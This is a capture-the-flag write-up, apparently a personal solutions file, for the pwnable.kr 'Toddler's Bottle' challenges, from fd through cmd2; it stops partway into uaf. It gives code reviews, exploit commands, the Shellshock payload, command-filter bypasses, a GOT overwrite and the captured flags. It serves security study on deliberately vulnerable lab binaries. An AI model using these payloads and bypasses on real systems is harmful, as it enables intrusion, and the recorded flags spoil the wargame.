

# Toddler's Bottle
## fd
### Description
> Mommy! what is a file descriptor in Linux?
> 
> try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link:  
> https://youtu.be/971eZhMHQQw
> 
> ssh fd@pwnable.kr -p2222 (pw:guest)
### Overview
* [File descriptor](https://www.computerhope.com/jargon/f/file-descriptor.htm)
    * Standard file descriptor value
      | File descriptor |      Name       |
      | :-------------: | :-------------: |
      |        0        | standard input  |
      |        1        | standard output |
      |        2        | standard error  |
    * Generally speaking, the file descriptors of new open files will start from 3 in strictly increasing order
    * Redirection
      * ```2>/dev/null```
        * redirect stderr to ```/dev/null``` to hide stderr
        * ```/dev/null``` is a special device in linux. It'll discard everything that writes into it
      * ```2>&1```
        * redirect stderr to stdout
* ```ssize_t read(int fildes, void *buf, size_t nbyte);```
  * The read() function shall attempt to read nbyte bytes from the file associated with the open file descriptor, fildes, into the buffer pointed to by buf
* Code review
  ```c
  int fd = atoi( argv[1] ) - 0x1234;
  int len = 0;
  len = read(fd, buf, 32);
  if(!strcmp("LETMEWIN\n", buf)){
    printf("good job :)\n");
    system("/bin/cat flag");
    exit(0);
  }
  ```
  * We need to provide one argument
  * Subtract 0x1234 from the argument
  * The result will be the file descriptor of read function
  * If the value of buf is equal to "LETMEWIN\n" then we get the shell
  * The value of buf comes from the file descriptor with size=32-bytes
### Exploit
* Our goal is to make the file descriptor equal to stdin, so we can control the value of buf
* argument = 0x1234 + 0 (fd of stdin) = 0x1234 = 4660
```sh
fd@pwnable:~$ ./fd 4660
LETMEWIN
```
### Flag
```mommy! I think I know what a file descriptor is!!```

## collision
### Description
> Daddy told me about cool MD5 hash collision today.  
> I wanna do something like that too!
> 
> ssh col@pwnable.kr -p2222 (pw:guest)
### Overview
* Code review
  * main
    ```c
    unsigned long hashcode = 0x21DD09EC;
    if(strlen(argv[1]) != 20){
      printf("passcode length should be 20 bytes\n");
      return 0;
    }

    if(hashcode == check_password( argv[1] )){
      system("/bin/cat flag");
      return 0;
    }
    ```
    * The length of argument should be 20 bytes
    * The argument will be the parameter to check_password function and the return value of it should be hashcode = 0x21DD09EC
  * check_password
    ```c
    unsigned long check_password(const char* p){
      int* ip = (int*)p;
      int i;
      int res=0;
      for(i=0; i<5; i++){
        res += ip[i];
      }
      return res;
    }
    ```
    * Every four bytes will be considered as a number added to result
    * For example, "AAAAAAAAAAAAAAAAAAAA" $\rightarrow$ 0x41414141 + 0x41414141 + 0x41414141 + 0x41414141 + 0x41414141 = 5473977925
* The value is stored in little endian, i.e., "AABB" $\rightarrow$ 0x42424141
* The NULL byte is not allowrd since it'll be considered as the end and cut out the remaining string
* It's hard to type unprintable ascii from the keyboard. We can leverage python to help us send unicode as argument to the program
  * ```./program `python -c 'print "[PAYLOAD]"'` ```
### Exploit
* There are several ways to make the sum of input becomes 0x21DD09EC
* 0x01010101*4 + 0x1dd905e8 = 0x21DD09EC
```sh
./col `python -c 'print "\x01\x01\x01\x01"*4+"\xE8\x05\xd9\x1d"'`
```
### Flag
```daddy! I just managed to create a hash collision :)```

## bof
### Description
> Nana told me that buffer overflow is one of the most common software vulnerability.  
> Is that true?  
> 
> Download : http://pwnable.kr/bin/bof  
> Download : http://pwnable.kr/bin/bof.c  
> 
> Running at : ```nc pwnable.kr 9000```
### Overview
* Code review
  ```c
  void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);	// smash me!
    if(key == 0xcafebabe){
      system("/bin/sh");
    }
    else{
      printf("Nah..\n");
    }
  }
  int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
  }
  ```
  * overflow the buffer overflowme to change the value of key from 0xdeadbeef to 0xcafebabe
### [Exploit](bof/exp.py)
* Calculate offset
  * Useful commands in ```pwndbg``` for overflow
    * ```cyclic [size]```
      * create pattern with length = size
    * ```info frame```
      * check if the value of saved rip is overwritten
    * ```cyclic -l [saved rip]```
      * Calculate the offset of specifying value
    * ```stack [size]```
      * Output the stack with size = size
  * Calculate by hands
      * Check the value on the stack after sending inputs<br>
        
      * Find the address of target, in this case it's ```0xff856f90```
      * Find the address of our input buffer, in this case it's ```0xff856f5c```
      * The offset = 0xff856f90 - 0xff856f5c = 52
* Overflow
  * Send 52-byte characters appended with the desired value
  * Note that we should send the desired value in little endian
```sh
python3 exp.py REMOTE
$ cat flag
```
### Flag
```daddy, I just pwned a buFFer :)```

## flag
### Description
> Papa brought me a packed present! let's open it.
> 
> Download : http://pwnable.kr/bin/flag
> 
> This is reversing task. all you need is binary
### Overview
* According to the description, it might be a packed binary
* Use [Detect It Easy](https://github.com/horsicq/Detect-It-Easy) to check which packer it's using
  * It turns out the packer is ```upx 3.08```
* upx is a famous packer and unpacking it is easy. Just download [upx](https://upx.github.io/) and type command ```upx -d [FILE]```
* Code review
  * main
    ```c
    puts("I will malloc() and strcpy the flag there. take it.", argv, envp);
    dest = (char *)malloc(100LL);
    strcpy(dest, flag);
    return 0;
    ```
    * This pseudo code was generated by [IDA pro](https://hex-rays.com/ida-pro/)
      * [Ghidra](https://ghidra-sre.org/) is another good alternative. It's open source and free.
    * Just navigate to ```flag``` and it'll show you the value
* Assembly code review
  ```assembly
  0000000000401164 <main>:
  401164:	55                   	push   rbp
  401165:	48 89 e5             	mov    rbp,rsp
  401168:	48 83 ec 10          	sub    rsp,0x10
  40116c:	bf 58 66 49 00       	mov    edi,0x496658
  401171:	e8 0a 0f 00 00       	call   402080 <_IO_puts>
  401176:	bf 64 00 00 00       	mov    edi,0x64
  40117b:	e8 50 88 00 00       	call   4099d0 <__libc_malloc>
  401180:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
  401184:	48 8b 15 e5 0e 2c 00 	mov    rdx,QWORD PTR [rip+0x2c0ee5]        # 6c2070 <flag>
  40118b:	48 8b 45 f8          	mov    rax,QWORD PTR [rbp-0x8]
  40118f:	48 89 d6             	mov    rsi,rdx
  401192:	48 89 c7             	mov    rdi,rax
  401195:	e8 86 f1 ff ff       	call   400320 <.plt+0x10>
  40119a:	b8 00 00 00 00       	mov    eax,0x0
  40119f:	c9                   	leave
  ```
  * The output comes from ```objdump -M intel -d flag```
  * It's still obvious to find the flag variable at ```0x401184```. Set a breakpoint at this address and find out what's the value of ```[rip+0x2c0ee5]```
### Flag
```UPX...? sounds like a delivery service :)```

## passcode
### Description
> Mommy told me to make a passcode based login system.  
> My initial C code was compiled without any error!  
> Well, there was some compiler warning, but who cares about that?
> 
> ssh passcode@pwnable.kr -p2222 (pw:guest)
### Overview
* Code review
  * main
    ```c
    welcome();
    login();
    ```
    * It calls welcome function and then login function immediatelly
  * welcome
    ```c
    char name[100];
    scanf("%100s", name);
    ```
    * Read at most 100 characters from the user input and stored in name
    * This doesn't cause overflow yet since the length of name is 100
  * login
    ```c
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);

    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
    scanf("%d", passcode2);

    printf("checking...\n");
    if(passcode1==338150 && passcode2==13371337){
      printf("Login OK!\n");
      system("/bin/cat flag");
    }
    ```
    * It'll validate the value of passcode1 and passcode2. If they're both correct we'll get shell
    * The problem is that the value of passcode1 and passcode2 is considered as address in the scanf function without ```&```. And since both of them are not initailized with value, chances are that it will be an invalid address and lead to segmentation fault when we try to write value at those addresses
* Assembly code review
  * main
    ```assembly
    0x0804867a <+21>:    call   0x8048609 <welcome>
    0x0804867f <+26>:    call   0x8048564 <login>
    ```
    * The two functions are called one after another immediately, so the value of ebp in these functions will be the same
    * This indicates that although the buffer of name is large enough to avoid overflow to return address, the garbuage value on the stack is still possible to affect the value of passcode1 and passcode2 as long as the value won't be cleared by the first function and there aren't any initilization in the second function
  * welcome
    ```assembly
    0x0804862a <+33>:    mov    eax,0x80487dd
    0x0804862f <+38>:    lea    edx,[ebp-0x70]
    0x08048632 <+41>:    mov    DWORD PTR [esp+0x4],edx
    0x08048636 <+45>:    mov    DWORD PTR [esp],eax
    0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
    ```
    * The name variable starts from ```ebp-0x70```
  * login
    ```assembly
    0x08048577 <+19>:    mov    eax,0x8048783
    0x0804857c <+24>:    mov    edx,DWORD PTR [ebp-0x10]
    0x0804857f <+27>:    mov    DWORD PTR [esp+0x4],edx
    0x08048583 <+31>:    mov    DWORD PTR [esp],eax
    0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
    ...
    ...
    ...
    0x080485a5 <+65>:    mov    eax,0x8048783
    0x080485aa <+70>:    mov    edx,DWORD PTR [ebp-0xc]
    0x080485ad <+73>:    mov    DWORD PTR [esp+0x4],edx
    0x080485b1 <+77>:    mov    DWORD PTR [esp],eax
    0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>
    ...
    ...
    ...
    0x080485c5 <+97>:    cmp    DWORD PTR [ebp-0x10],0x528e6
    0x080485cc <+104>:   jne    0x80485f1 <login+141>
    0x080485ce <+106>:   cmp    DWORD PTR [ebp-0xc],0xcc07c9
    0x080485d5 <+113>:   jne    0x80485f1 <login+141>
    0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5
    0x080485de <+122>:   call   0x8048450 <puts@plt>
    0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
    0x080485ea <+134>:   call   0x8048460 <system@plt>
    ```
    * The passcode1 variable starts from ```ebp-0x10```
      * The offset = 0x70 - 0x10 = 0x60 = 96 < 100
      * We can modify the value of 4 bytes which is enough for address value in 32-bit architecture
    * The passcode2 variable starts from ```ebp-0xc```
      * The offset = 0x70 - 0xc = 100
      * This is out of bound and we cannot change the value of passcode2
* Since we cannot change the passcode2, it's unlikely to avoid segmentation fault during the second scanf in login function
* The vulnerability in ```scanf("%d", passcode1)``` can lead to arbitrary write to any address
* We should think of controlling the control flow to jump to the ```system("/bin/cat flag");``` before executing ```scanf("%d", passcode2);```
* [GOT & PLT](https://www.youtube.com/watch?v=kUk5pw4w0h4)
  * checksec
    ```sh
    passcode@pwnable:~$ checksec passcode
    [*] '/home/passcode/passcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    ```
    * Since it's Partial RELRO, GOT hijacking is possible
  * The only two functions between the first scanf and second scanf is fflush and printf
  * Here we choose to overwrite the GOT of fflush to 0x080485e3 which is the address for system. We didn't choose 0x80485ea since the previous instruction might be necessary for system function
  * Useful command in gdb to get information of got and plt
    * ```x/10i &'fflush@plt'```
      ```assembly
      0x8048430 <fflush@plt>:      jmp    DWORD PTR ds:0x804a004
      0x8048436 <fflush@plt+6>:    push   0x8
      0x804843b <fflush@plt+11>:   jmp    0x8048410
      0x8048440 <__stack_chk_fail@plt>:    jmp    DWORD PTR ds:0x804a008
      ...
      ``` 
      * list 10 instructions strart from fflush's plt
      * PLT address is 0x8048430
      * GOT address is 0x804a004
    * ```x/10i &'fflush@got.plt'```
      ```assembly
      0x804a004 <fflush@got.plt>:  test   BYTE PTR ss:[eax+ecx*1],al
      0x804a008 <__stack_chk_fail@got.plt>:        inc    esi
      0x804a009 <__stack_chk_fail@got.plt+1>:      test   BYTE PTR [eax+ecx*1],al
      ...
      ...
      ```
      * List 10 instructions start from fflush's got
### Exploit
* The offset from name to passcode1 is 96
* Now we know the value of passcode1 should be the address of fflush's GOT = 0x804a004
* Then the scanf will help us to write our desired value at this address which is 0x80485e3
* Remember the address needs to be little endian
* scanf uses %d so we need to convert the second address into decimal integer
  * 0x80485e3 = 134514147
```sh
python -c 'print "\x01"*96 + "\x04\xa0\x04\x08" + "134514147"' | ./passcode
```
### Flag
```Sorry mom.. I got confused about scanf usage :(```

## random
### Description
> Daddy, teach me how to use random value in programming!
> 
> ssh random@pwnable.kr -p2222 (pw:guest)
### Overview
* Code review
  ```c
  unsigned int random;
  random = rand();        // random value!

  unsigned int key=0;
  scanf("%d", &key);

  if( (key ^ random) == 0xdeadbeef ){
    printf("Good!\n");
    system("/bin/cat flag");
    return 0;
  }
  ```
  * We need to provide a key such that key^random == 0xdeadbeef
  * The problem is that the [rand() function is called without a random seed](https://stackoverflow.com/questions/54847461/rand-function-producing-same-output-every-time-c/54847513), so it's actually predictable and have the same sequence of value each time the program executed
  * The output of rand() is same across the entire system, so we can write another c program using rand() function without key to find out the random value
    * In this case, it's 1804289383
* 1804289383 ^ key = 0xdeadbeef
  * key = 0xdeadbeef ^ 1804289383 = 3039230856
### Exploit
```sh
random@pwnable:~$ ./random
3039230856
Good!
```
### Flag
```Mommy, I thought libc random is unpredictable...```

## input
### Description
> Mom? how can I pass my input to a computer program?
> 
> ssh input2@pwnable.kr -p2222 (pw:guest)
### Overview
* Code review
  * Stage 1
    ```c
    // argv
    if(argc != 100) return 0;
    if(strcmp(argv['A'],"\x00")) return 0;
    if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
    printf("Stage 1 clear!\n");
    ```
    * Need 100 arguments including filenamne
    * argv['A'] == argv[65]
    * argv['B'] == argv[66]
    * '\x00' is null byte, but it'll cut off the remaining string, so just provide empty string
  * Stage 2
    ```c
    // stdio
    char buf[4];
    read(0, buf, 4);
    if(memcmp(buf, "\x00\x0a\x00\xff", 4)) return 0;
    read(2, buf, 4);
    if(memcmp(buf, "\x00\x0a\x02\xff", 4)) return 0;
    printf("Stage 2 clear!\n");
    ```
    * fd = 0 = stdin
    * fd = 2 = stderr
  * Stage 3
    ```c
    // env
    if(strcmp("\xca\xfe\xba\xbe", getenv("\xde\xad\xbe\xef"))) return 0;
    printf("Stage 3 clear!\n");
    ```
    * Create an environment variable named "\xde\xad\xbe\xef" with value "\xca\xfe\xba\xbe"
  * Stage 4
    ```c
    // file
    FILE* fp = fopen("\x0a", "r");
    if(!fp) return 0;
    if( fread(buf, 4, 1, fp)!=1 ) return 0;
    if( memcmp(buf, "\x00\x00\x00\x00", 4) ) return 0;
    fclose(fp);
    printf("Stage 4 clear!\n");
    ```
    * Create a file named "\x0a" with value "\x00\x00\x00\x00"
  * Stage 5
    ```c
    saddr.sin_port = htons( atoi(argv['C']) );
    if(memcmp(buf, "\xde\xad\xbe\xef", 4)) return 0;
    ```
    * The port comes from argv['C']
    * Need to send "\xde\xad\xbe\xef" to the specified port
* [If we're in the ```/tmp/test``` directory, the binary won't be able to read flag as it's not in the same directory](https://n1ght-w0lf.github.io/binary%20exploitation/input/#stage-5-network-input)
  * Create a symbolic link to it by ```ls -n /home/input2/flag flag```
### [Exploit](input/solve.py)
```sh
input2@pwnable:/tmp/test$ python input.py
Welcome to pwnable.kr
Let's see if you know how to give input to program
Just give me correct inputs then you will get the flag :)
Stage 1 clear!
Stage 2 clear!
Stage 3 clear!
Stage 4 clear!
Stage 5 clear!
```
### Flag
```Mommy! I learned how to pass various input in Linux :)```

## leg
### Description
> Daddy told me I should study arm.  
> But I prefer to study my leg!
> 
> Download : http://pwnable.kr/bin/leg.c  
> Download : http://pwnable.kr/bin/leg.asm
> 
> ssh leg@pwnable.kr -p2222 (pw:guest)
### Overview
* Code review
  * main
    ```c
    scanf("%d", &key);
    if( (key1()+key2()+key3()) == key ){
      printf("Congratz!\n");
      int fd = open("flag", O_RDONLY);
      char buf[100];
      int r = read(fd, buf, 100);
      write(0, buf, r);
    }
    ```
    * our input sholud equal key1()+key2()+key3()
  * key1
    ```assembly
    mov r3, pc
    ```
  * key2
    ```assembly
    push	{r6}
    add	  r6, pc, $1
    bx	  r6
    .code 16
    mov	  r3, pc
    add	  r3, $0x4
    push	{r3}
    pop   {pc}
    .code	32
    pop	  {r6}
    ```
  * key3
    ```assembly
    mov	r3, lr
    ```
* The server doesn't have gdb and thus we need to figure the value from [leg.asm](leg/leg.asm)
* [ARM32](https://hackmd.io/@owlfox/Bkcen7LeL/https%3A%2F%2Fhackmd.io%2Fs%2FBkGRdKmsg)
  * [calling convention](https://en.wikipedia.org/wiki/Calling_convention#ARM_(A32))
    * r0 - r3
      * Argument values passed to a subroutine and results returned from a subroutine
    * r4 - r11
      * Local variables
    * r13
      * Stack pointer
    * r15
      * Program counter
* key1
  ```assembly
  0x00008cdc <+8>:	mov	r3, pc
  0x00008ce0 <+12>:	mov	r0, r3
  0x00008ce4 <+16>:	sub	sp, r11, #0
  ```
  * r0 will store the return value and the value comes from r3
  * the value of r3 comes from pc
  * pc = 0x00008ce4
    * [pc points to the next number two instruction](https://stackoverflow.com/questions/24091566/why-does-the-arm-pc-register-point-to-the-instruction-after-the-next-one-to-be-e)
* key2
  ```assembly
  0x00008d04 <+20>:	mov	r3, pc
  0x00008d06 <+22>:	adds	r3, #4
  0x00008d08 <+24>:	push	{r3}
  0x00008d0a <+26>:	pop	{pc}
  0x00008d0c <+28>:	pop	{r6}		; (ldr r6, [sp], #4)
  0x00008d10 <+32>:	mov	r0, r3
  ```
  * mov r3, pc
    * r3 = 0x00008d08
  * adds r3, #4
    * r3 = 0x008d08 + 4 = 0x00008d0c
  * mov r0, r3
    * r0 = 0x00008d0c
* key3
  ```assembly
  .main
  0x00008d7c <+64>:	bl	0x8d20 <key3>
  0x00008d80 <+68>:	mov	r3, r0
  ...
  ...
  .key3
  0x00008d28 <+8>:	mov	r3, lr
  0x00008d2c <+12>:	mov	r0, r3
  ```
  * lr is link register used to hold the return address for a function call = 0x00008d80
  * r0 = 0x00008d80
* key1()+key2()+key3() = 0x8ce4 + 0x8d0c + 0x8d80 = 108400 = key
### Exploit
```sh
$ ./leg
Daddy has very strong arm! : 108400
Congratz!
```
### Flag
```My daddy has a lot of ARMv5te muscle!```

## mistake
### Description
> We all make mistakes, let's move on.  
> (don't take this too seriously, no fancy hacking skill is required at all)
> 
> This task is based on real event  
> Thanks to dhmonkey
> 
> hint : operator priority
> 
> ssh mistake@pwnable.kr -p2222 (pw:guest)
### Overview
* Code review
  * main
    ```c
    #define PW_LEN 10
    #define XORKEY 1

    if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
      printf("can't open password %d\n", fd);
      return 0;
    }
    printf("do not bruteforce...\n");
    sleep(time(0)%20);
    if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
      printf("read error\n");
      close(fd);
      return 0;
    }
    printf("input password : ");
    scanf("%10s", pw_buf2);

    // xor your input
    xor(pw_buf2, 10);

    if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
      printf("Password OK\n");
      system("/bin/cat flag\n");
    }
    ```
    * According to the hint, the problem lies in the [operator priority](https://en.cppreference.com/w/c/language/operator_precedence)
      * It turns out that ```<``` and ```>``` has higher priority than ```=```
    * ```fd=open("/home/mistake/password",O_RDONLY,0400) < 0```
      * fd is actually not the open file's descriptor but 0 which is stdin
      * Thus ```len=read(fd,pw_buf,PW_LEN) > 0``` is reading from stdin and write to pw_buf
    * The plaintext and its corresponding ciphertext can be specified by the user
    * The sleep function is helping us to get enough time for typing characters to stdin
  * xor
    ```c
    for(i=0; i<len; i++){
      s[i] ^= XORKEY;
    }
    ```
    * The xor function is working properly
### Exploit
```sh
mistake@pwnable:~$ ./mistake
do not bruteforce...
AAAAAAAAAA
input password : @@@@@@@@@@
Password OK
```
### Flag
```Mommy, the operator priority always confuses me :(```

## shellshock
### Description
> Mommy, there was a shocking news about bash.  
> I bet you already know, but lets just make it sure :)
> 
> ssh shellshock@pwnable.kr -p2222 (pw:guest)
### Overview
* Code review
  ```c
  system("/home/shellshock/bash -c 'echo shock_me'");
  ```
  * The program will execute bash
* ShellShock
  * Related CVE
    * CVE-2014-6271
  * Payload
    * ```env x='() { :;}; echo HACK' bash -c :```
  * Description
    * Bash
      * A terminal prompt and also a **scripting language**
      * Define function
        * ```$ yayfedora() { echo "Fedora is awesome."; }```
      * Execute defined function
        * ```
          $ yayfedora 
          Fedora is awesome.
          ```
      * Run the defined function in a new instance of bash
        * ```
          $ bash -c yayfedora
          bash: yayfedora: command not found
          ```
          * Child didn't inherit the function definition
        * It does **inherit the environment**
          * Environment is a collection of key-value pairs that have been exported from the shell
        * ```
          $ export -f yayfedora
          $ bash -c yayfedora
          Fedora is awesome.
          ```
    * Vulnerability
      * Bash shell will think the value in environment variable is a function as long as it **looks like a function** and  **evaluate** it when reading the environment(happens when a new shell starts)
      * ```env```
        * Runs a command with a given variable set
      * ```x```
        * ```x``` is the environment variable and it is set to something looks like a function
      * ```:```
        * A simple command which command which is defined as doing nothing
      * ```;```
        * Signals the end of the function definition
      * ```echo```
        * **Not supposed to be here**
### Exploit
```sh
env x='() { :;}; bash -c "cat ./flag"' ./shellshock
```
### Flag
```only if I knew CVE-2014-6271 ten years ago..!!```
### Reference
* https://fedoramagazine.org/shellshock-how-does-it-actually-work/
* https://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/

## coin1
### Description
> Mommy, I wanna play a game!  
> (if your network response time is too slow, try nc 0 9007 inside pwnable.kr server
> 
> Running at : nc pwnable.kr 9007
### Overview
* banner
  ```sh
  ---------------------------------------------------
  -              Shall we play a game?              -
  ---------------------------------------------------

  You have given some gold coins in your hand
  however, there is one counterfeit coin among them
  counterfeit coin looks exactly same as real coin
  however, its weight is different from real one
  real coin weighs 10, counterfeit coin weighes 9
  help me to find the counterfeit coin with a scale
  if you find 100 counterfeit coins, you will get reward :)
  FYI, you have 60 seconds.

  - How to play -
  1. you get a number of coins (N) and number of chances (C)
  2. then you specify a set of index numbers of coins to be weighed
  3. you get the weight information
  4. 2~3 repeats C time, then you give the answer

  - Example -
  [Server] N=4 C=2        # find counterfeit among 4 coins with 2 trial
  [Client] 0 1            # weigh first and second coin
  [Server] 20                     # scale result : 20
  [Client] 3                      # weigh fourth coin
  [Server] 10                     # scale result : 10
  [Client] 2                      # counterfeit coin is third!
  [Server] Correct!

  - Ready? starting in 3 sec... -
  ```
* This is a programming challenge
  * Need to find the 100 odd coins in 1 minute and limitied tries
  * The strategy is to use binary search to find the odd coind in O(log n) time
### [Exploit](coin1/solve.py)
### Flag
```b1NaRy_S34rch1nG_1s_3asy_p3asy```

## blackjack
### Description
> Hey! check out this C implementation of blackjack game!  
> I found it online  
> http://cboard.cprogramming.com/c-programming/114023-simple-blackjack-program.html
> 
> I like to give my flags to millionares.  
> how much money you got?
> 
> Running at : nc pwnable.kr 9009
### Overview
* This is a simple blackjack game
* To get the flag we need to gain one million and we start with $500
* Playing normally takes forever, so we decide to cheat
* First take a look at the source code and focus on the place where takes input from users because these parts can be controlled
* There're only 6 ```scanf``` in the program, and only two of them is related to the amount of bet
* Code review
  ```c
  int betting() //Asks user amount to bet
  {
  printf("\n\nEnter Bet: $");
  scanf("%d", &bet);
  
  if (bet > cash) //If player tries to bet more money than player has
  {
          printf("\nYou cannot bet more money than you have.");
          printf("\nEnter Bet: ");
          scanf("%d", &bet);
          return bet;
  }
  else return bet;
  } // End Function
  ```
  * The issue is that it only check the amounts of bet once, and take the second input of bet as the player's amount of bet whether it's more than the money the player has or not
  * So if we first input $600 and then $10000000, then if we win this time, we immediatelly gain $1000000 and win the flag
### Flag
```YaY_I_AM_A_MILLIONARE_LOL```

## lotto
### Description
> Mommy! I made a lotto program for my homework.  
> do you want to play?
> 
> ssh lotto@pwnable.kr -p2222 (pw:guest)
### Overview
* Code review
  ```c
  // generate lotto numbers
  int fd = open("/dev/urandom", O_RDONLY);
  ...
  if(read(fd, lotto, 6) != 6){
    printf("error2. tell admin\n");
    exit(-1);
  }
  for(i=0; i<6; i++){
    lotto[i] = (lotto[i] % 45) + 1;         // 1 ~ 45
  }
  ...
  // calculate lotto score
  int match = 0, j = 0;
  for(i=0; i<6; i++){
    for(j=0; j<6; j++){
      if(lotto[i] == submit[j]){
        match++;
      }
    }
  }
  // win!
  if(match == 6){
    system("/bin/cat flag");
  }
  ...
  ```
  * The Help(2) option tells us the rule of this game
    ```text
    - nLotto Rule -
    nlotto is consisted with 6 random natural numbers less than 46
    your goal is to match lotto numbers as many as you can
    if you win lottery for *1st place*, you will get reward
    for more details, follow the link below
    http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01
    mathematical chance to win this game is known to be 1/8145060.
    ```
  * The problem lies in the calculate loops logic. It compares each lotto number with all the inputs which means the probability of guessing the correct number is not 1/8145060 as the rule declared but 1/45 if the 6 inputs are identical
* printable ascii between 1 and 45
  * ```!"#$%&\'()*+,-```
### [Exploit](lotto/exp.py)
### Flag
```sorry mom... I FORGOT to check duplicate numbers... :(```

## cmd1
### Description
> Mommy! what is PATH environment in Linux?
> 
> ssh cmd1@pwnable.kr -p2222 (pw:guest)
### Overview
* Code review
  * main
    ```c
    putenv("PATH=/thankyouverymuch");
    if(filter(argv[1])) return 0;
    system( argv[1] );
    ```
    * The putenv function will change the value of environment variable ```PATH```
    * Therefore only the binary under ```/thankyouverymuch``` can be called directly in the shell. Otherwise, we need to specify the absolute path to the desired binary to execute it
  * filter
    ```c
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    ```
    * It checks for several strings
      * flag
      * sh
      * tmp
    * We can use wildcard character ```*``` to bypass

### Exploit
```sh
./cmd1 "export PATH=/bin; cat f*"
```
### Flag
```mommy now I get what PATH environment is for :)```
### Reference
* https://stackoverflow.com/questions/18547881/shell-script-to-set-environment-variables
* https://github.com/w181496/Web-CTF-Cheatsheet#keyword%E7%B9%9E%E9%81%8E

## cmd2
### Description
> Daddy bought me a system command shell.  
> but he put some filters to prevent me from playing with it without his permission...  
> but I wanna play anytime I want!
> 
> ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)
### Overview
* Code review
  * main
    ```c
    delete_env();
    putenv("PATH=/no_command_execution_until_you_become_a_hacker");
    if(filter(argv[1])) return 0;
    printf("%s\n", argv[1]);
    system( argv[1] );
    ```
  * filter
    ```c
    r += strstr(cmd, "=")!=0;
    r += strstr(cmd, "PATH")!=0;
    r += strstr(cmd, "export")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, "`")!=0;
    r += strstr(cmd, "flag")!=0;
    ```
    * More filtered keyword but still can be [bypassed](https://github.com/w181496/Web-CTF-Cheatsheet#command-injection)
### Exploit
* This chllange has many solutions
* ```pwd``` command
  * This command still works even when the all the environment variable is corrupted
  * It'll yield ```/``` if the user is at the root direcotry of the server
  * Use [dollar sign](https://stackoverflow.com/questions/17984958/what-does-it-mean-in-shell-when-we-put-a-command-inside-dollar-sign-and-parenthe) to make system function considered it as command instead of strings
  * Use ```'``` or ```\``` for escape, otherwise, it'll be converted to ```/``` and forbidden by the filter function
    * We only want it to be considered as ```/``` in the system function
  * ```/home/cmd2/cmd2 '$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fl*'```
  * ```/home/cmd2/cmd2 "\$(pwd)bin\$(pwd)cat \$(pwd)home\$(pwd)cmd2\$(pwd)fl*"```
* ```printf``` command
  * After the value printed by printf to the shell, it'll conidered it as command and try to execute it
  * Example
    ```sh
    pwnable% $(printf "%s %s\n" "ls" "-la")
    total 40
    drwxr-x---   5 root cmd2     4096 Oct 23  2016 .
    drwxr-xr-x 116 root root     4096 Nov 11 14:52 ..
    d---------   2 root root     4096 Jul 14  2015 .bash_history
    -r-xr-sr-x   1 root cmd2_pwn 8794 Dec 21  2015 cmd2
    -rw-r--r--   1 root root      586 Dec 21  2015 cmd2.c
    -r--r-----   1 root cmd2_pwn   30 Jul 14  2015 flag
    dr-xr-xr-x   2 root root     4096 Jul 22  2015 .irssi
    drwxr-xr-x   2 root root     4096 Oct 23  2016 .pwntools-cache
    ```
  * Special pattern
    * ```\\[OCTAL]``` -> ```ASCII(OCTAL)``` -> character
    * ```\\57``` -> ```/```
  * ```./cmd2 '$(printf \\57bin\\57cat) fla*'```
* Others
  * ```./cmd2 "read b < fl\ag; echo \$b"```
  * ```./cmd2 "command -p cat fla*"```
  * ```sh
    /home/cmd2/cmd2 'set -s'
    /bin/cat /home/cmd2/flag
    ```
  * ```sh
    cmd2@ubuntu:/tmp/sex$ ln -s -f /bin/cat no_command_execution_until_you_become_a_hacker
    cmd2@ubuntu:/tmp/sex$ ln -s -f /home/cmd2/flag flag
    cmd2@ubuntu:/tmp/sex$ ln -s -f /home/cmd2/cmd2 cmd2
    cmd2@ubuntu:/tmp/sex$ ./cmd2 "eval ''$echo $\PWD$\PAT\H fla\g'' "
    ```
### Flag
```FuN_w1th_5h3ll_v4riabl3s_haha```
### Reference
* https://github.com/victor-li/pwnable.kr-write-ups/blob/master/cmd2.md
* https://www.cnblogs.com/p4nda/p/7147552.html
* https://gist.github.com/dual5651/910a89eabcb471ab3a314ed52a82a5c7
* https://www.twblogs.net/a/5ee37508002b39a07dcce90b

## uaf
### Description
> Mommy, what is Use After Free bug?
> 
> ssh uaf@pwnable.kr -p2222 (pw:guest)
### Overview
* [C++ class assembly layout](https://www.blackhat.com/presentations/bh-dc-07/Sabanal_Yason/Paper/bh-dc-07-Sabanal_Yason-WP.pdf)
  * Human
    ```
    class Human:
    +---
    | {vfptr}
    | age
    | name
    +---

    Human::$vftable@:
    +---
    | &Human::give_shell
    | &Human::introduce
    +---
    ```
  * Man
    ```
    class Man:
    +---
    | +--- (base class Human)
    | | {vfptr}
    | | age
    | | name
    | +---
    +---

    Man::$vftable@Human@:
    +---
    | &Human::give_shell
    | &Man::introduce
    +---
    ```
  * Woman
    ```
    class Woman:
    +---
    | +--- (base class Human)
    | | {vfptr}
    | | age
    | | name
    | +---
